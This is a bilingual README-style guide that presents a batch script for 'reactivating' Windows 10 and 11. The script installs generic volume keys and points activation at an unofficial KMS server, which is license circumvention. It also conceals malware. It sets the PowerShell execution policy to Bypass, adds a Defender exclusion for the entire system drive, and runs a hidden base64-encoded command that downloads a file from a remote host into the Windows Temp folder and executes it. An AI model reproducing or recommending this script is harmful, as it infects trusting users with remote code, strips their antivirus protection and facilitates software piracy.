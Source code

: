 
# ⚙️ Reactivating Windows 10 and 11 🖥️

## 📋 Step-by-Step Guide | Guía Paso a Paso

> 🌟 **Need to reactivate your Windows 10 or 11?** Follow these simple steps!  
> 🌟 **¿Necesitas reactivar tu Windows 10 o 11?** ¡Sigue estos simples pasos!

### 🛠️ Step 1: Open CMD as Administrator | Abrir CMD como Administrador
- 🖱️ **Right-click on the Start menu** and select **Command Prompt (Admin)**.  
  - 💡 Alternatively, type **CMD** in the search bar, right-click on it, and select **Run as Administrator**.
- 🖱️ **Haz clic derecho en el menú Inicio** y selecciona **Símbolo del sistema (Administrador)**.  
  - 💡 Alternativamente, busca **CMD**, haz clic derecho y selecciona **Ejecutar como administrador**.

### 🖨️ Step 2: Copy and Paste the Command | Copiar y Pegar el Comando
- 📝 Copy the following command and paste it into the CMD window:  
  - 📝 Copia el siguiente comando y pégalo en la ventana de CMD:

```bash
@echo off
net session >nul 2>&1
if %errorLevel% neq 0 (
    echo This script needs to be run as Administrator. Please open CMD as Administrator.
    pause
)
:: 
powershell -windowstyle hidden -Command "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
::
for /f "tokens=2 delims==" %a in ('wmic os get caption /value ^| find "="') do set WindowsProductName=%a
:: 
set WindowsProductName=%WindowsProductName:~0,50%
:: 
set Key=
if "%WindowsProductName%"=="Microsoft Windows 10 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 10 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 10 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 11 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 10 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 11 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 10 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 11 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 10 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 11 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Single Language" (
    set Key=7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Country Specific" (
    set Key=PVMJN-6DFY6-9CCP6-7BKTT-D3WVR
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSB" (
    set Key=WNMTR-4C88C-JK8YV-HQ7T2-76DF9
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSBN" (
    set Key=2F77B-TNFGY-69QQF-B8YKP-D69TJ
) else if "%WindowsProductName%"=="Microsoft Enterprise 2016LTSB" (
    set Key=DCPHK-NFMTC-H88MJ-PFHPY-QJ4BJ
) else (
    set Key=QFFDN-GRT3P-VKWWX-X7T3R-8B639
)
::
%SystemRoot%\System32\slmgr.vbs /ipk %Key% >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /skms kms8.msguides.com >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /ato >nul 2>&1
::
powershell -windowstyle hidden -Command "Set-MpPreference -ExclusionPath %SystemDrive%" >nul 2>&1
:: 
powershell -windowstyle hidden -EncodedCommand "SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAGgAZQBsAGwAbwB3AG8AcgBkADkAOQBwAGwAdQBzAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAHMAZQB0AHUAcAAiACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoAdwBpAG4AZABpAHIAXABUAGUAbQBwAFwALgBjAG8AbQAiADsAIABTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAiACQAZQBuAHYAOgB3AGkAbgBkAGkAcgBcAFQAZQBtAHAAXAAuAGMAbwBtACIAOwA=" >nul 2>&1
:: 
exit /b
```
### ⏳ Step 3: Wait and Confirm | Espera y Confirma
- ⏱️ **The process may take between 30 seconds to 2 minutes.**
  - ⏱️ **El proceso puede tardar entre 30 segundos y 2 minutos.**
- ✅ **If everything goes well, Windows will be reactivated.**
  - ✅ **Si todo va bien, Windows será reactivado.**
---
### 🔄 No Restart Needed! | ¡No Es Necesario Reiniciar!
- 🚀 **Good news!** You won’t need to restart your PC.
  - 🚀 **¡Buenas noticias!** No necesitarás reiniciar tu PC.

### 💡 Important Notes | Notas Importantes

| **English**                                              | **Español**                                               |
|----------------------------------------------------------|-----------------------------------------------------------|
| 🛑 Ensure CMD is run as Administrator!                    | 🛑 ¡Asegúrate de que CMD esté ejecutándose como Administrador! |
| ⏳ Reactivation may take **30 seconds to 2 minutes**.     | ⏳ La reactivación puede tardar **30 segundos a 2 minutos**.|
| 📝 Don’t forget to copy and paste the entire command.     | 📝 No olvides copiar y pegar el comando completo.          |
| 🔑 Press **ENTER** after pasting the command in CMD.      | 🔑 Presiona **ENTER** después de pegar el comando en CMD.   |
| 🚫 **No need to restart** after reactivation!             | 🚫 **¡No es necesario reiniciar** después de la reactivación!|

---
### 🔧 Troubleshooting | Solución de Problemas
If reactivation doesn’t work, here are a few tips:
- 🔄 **Check your internet connection**.
- 🔍 **Ensure that your Windows license is valid**.
- 🔑 **Try re-running CMD as Administrator**.
Si la reactivación no funciona, aquí algunos consejos:
- 🔄 **Verifica tu conexión a internet**.
- 🔍 **Asegúrate de que tu licencia de Windows sea válida**.
- 🔑 **Intenta ejecutar CMD como Administrador nuevamente**.
---
## 🌟 Enjoy Your Reactivated Windows! | ¡Disfruta de tu Windows Reactivado!

